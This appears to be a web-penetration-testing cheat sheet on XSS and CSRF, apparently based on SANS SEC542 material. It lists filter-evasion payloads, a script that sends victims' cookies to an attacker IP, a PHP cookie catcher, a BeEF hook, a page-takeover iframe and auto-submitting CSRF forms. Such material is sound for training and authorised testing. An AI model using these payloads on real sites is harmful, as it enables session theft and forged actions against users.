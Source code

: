 ```yaml
---
title: XSS, Javascript, and CSRF
category: Web Application
order: 5
---
```


> **XSS Reflection Testing**

**Using Burp - Step 1:** 
1. Intruder-> Battering Ram (include user-agent, referer, cookie values)
2. Payoad -> Use a magic string: 9vqkz (any random string)
3. Options -> Search responses for payload strings -> magic string
4. Sort on p grep, if found change attack type to sniper.

**Using Burp - Step 2 Filter Test:**
1. Repeat above with sniper and the following payloads (simple list):
* <code> &lt;&gt;[]{}()$--'#&#34;&amp;;/ </code>
* <code> '';!--&#34;&lt;XSS&gt;=&amp;{()}</code>
* <code> &lt;x&gt;'&#34;()= </code>
* <code> ;[]{}'"() </code>
* <code> jAvaSCript:prompt(9vqkz) </code>
* <code> &lt;script&gt;alert(42);&lt;/script&gt; </code>

**Additional Payloads:**
* Fuzzdb /attack-payloads/xss
* JBroFuzz (built into ZAP)
* Burp (Pro provides expanded payloads)
* ZAP (JBroFUzz and some fuzzdb)
* XSSer (includes some that the others don't have)

**Additional XSS Test Strings**
{% highlight html %}
<script>alert(document.cookie);</script>
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
<script src=http://www.example.com/malicious-code.js></script>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
{% endhighlight %}

**Tools:**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)

**Resources:**
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

> **Javascript Events for XSS**

onload | change content after it loads
onunload | launch pop-under window to retain control of a zombie browser
onsubmit | change form values os the transaction is one of the attacker's choosing
onfocus | send http request to the attacker's web server to reveal which controls the user is selecting

> **XSS Exploitation**

**Exploitation Options**
* Redirect to competitor (or other equivantly bad site) 
	* <code> window.location.href = "http://www.sec542.org" ; </code>
* Have form submit to you:
	* <code> document.forms[1].action="http://www.sec542.org" </code>
* Add Competitor logo
* Negative fake information (or other content modification)
* Read cookies
* Fake Login Site 

**Basic Stealing Cookie:**
{% highlight html %}
<!-- Attacker -->
python -m SimpleHTTPServer 

<!-- Victim -->
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

**POST:**
*Needs CSRF Vulnerability to work*
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

**XSS Cookie Catcher**
{% highlight php %}

#Attacker
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
echo "FOO!";
?>

#Victim
http://www.sec542.org/PhpMyAdmin/index.php?lang=<script>var lo=document.location;document.location='//[AttackerIP]/cookiecatcher.php?'%2bdocument.cookie;var la = new Array();la = lo.toString().split('?');document.location=la[0];</script>
"
{% endhighlight %}

**Take Over a Page**
{% highlight html %}
<style type="text/css"> <! -- .style11 {position:fixed; top:0px; left:0px; bottom:0px; right:opx; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;} //-->
</style>

<iframe class="style11" src="http://127.127.127.127/www.sans.org/account/" frameborder="0" scrolling="no" />
{% endhighlight %}

**BEEF**
{% highlight html %}
<script src=http://beefserver:3000/hook.js></script>
<!-- Most important is the browser exploitation - Metasploit attack payloads -->
{% endhighlight %}


>**XML HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Sets which function should be called when the ready state changes (AJAXProcess is a custom function)
xmlhttp.onreadystatechange = function () { if (xhr.readyState ==4 && xhr.status ==200) { document.getElementByID("answer").innerHTML = xhr.responseText;}}
//set up the request
xmlhttp.open("GET", "http://www.sec542.org/index.php");
//Send the request
xmlhttp.send();
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**Exploiting JSON**

Look for:
1. Too much data provided from server and being filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
2. Error messages provided from server but filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
3. Injection (JSON to the server, or JSON in the response, eval)
	* Intercept the JSON and insert attack strings (XSS, SQL), be careful with XSS because it is in a JSON object that is going to be parsed and break out of it appropriately.

>**XSS JSON**

If data is reflected from input into JSON Object (9vqkz is test string):
{% highlight javascript %}
{"query": {"toolIDRequested": "9vqkz", "penTestTools": []}}

Example escape using concatinate:
Prefix: 1"+
Paylod: eval(alert(1))
Suffix:+1

prefix: 1"%2b
Payload: eval(alert(1))
Suffix: %2b"1

prefix: 4"}}); 
payload: alert(1);
suffix:   //
{% endhighlight %}

> **CSRF**

Look for:
1. No CSRF Token
2. Actions that perform a sensitive or important action
	* Network Devices to allow bad guys to come in
3. Transaction that contains predictable parameters

> **CSRF Exploits**

With ZAP:
1. Right Click on the request in the history
2. Generate Anti CSRF Test From
3. In a logged in session test form

*Burp also has one in the pro version*

{% highlight html %}
GET:
Image tag 
<img src="https://a.tld/t.php?acct=12345&amt=1000">

IFRAME
<iframe src="https;//a.tld/t.php?acct=12345&amt1000">
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>

CSS or Javascript import 

XMLHTTPRequest
{% endhighlight %}

{% highlight html %}
<html>
<body onload="f1.submit()";>
<h3>http://www.sec542.org/sec542_oldforum/posting.php</h3><form id="f1" method="POST" action="http://www.sec542.org/sec542_oldforum/posting.php">
<table>
<tr><td>
post<td><input name="post" value="Submit" size="100"></tr>
<tr><td>
message<td><input name="message" value="test :D " size="100"></tr>
</table>
</form>
<button onclick="document.getElementById('f1').submit()">Submit</button>
</body>
</html>
{% endhighlight %}

> **Useful Resources**

* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors) 
* [XSS Examples](http://www.xssed.com/)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)

> **Useful Tools**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)


